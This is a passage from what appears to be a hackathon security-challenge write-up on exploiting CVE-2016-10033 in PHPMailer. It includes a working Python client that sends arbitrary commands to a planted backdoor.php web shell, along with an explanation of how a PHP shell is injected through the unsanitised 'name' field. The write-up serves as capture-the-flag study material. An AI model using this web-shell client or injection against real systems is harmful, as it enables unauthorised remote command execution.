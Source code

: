 4. Execute __interact.py__ which gives handy access to _www-data_-level of RCE:

```python
#!/usr/bin/env python

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 07.12.2021

import requests

host = "127.0.0.1"
port = "80"
backdoor = "backdoor.php"

target = f"http://{host}:{port}/{backdoor}?c="

def send(cmd):
    r = requests.get(target+cmd)
    print(r.text.split("/tmp/.")[1])

send("ls")

while (1):
    send(input("Command: "))

print("Exit.")

```

5. Connection established, user control gained.

CVE-2016-10033
===

We have PHPMail on port 8383.

We've got:
- PHP backdoor 
- Stable reverse shell.

How does the exploit work?
---

PHPMailer fails at purifying 'email' and 'name' fields content; so we can inject PHP shell into 'name' field and using 'email' mail queue log into web interface.

After using __backdoor_uploader.py__ on target we gain access to "/backdoor.php" page on web server:
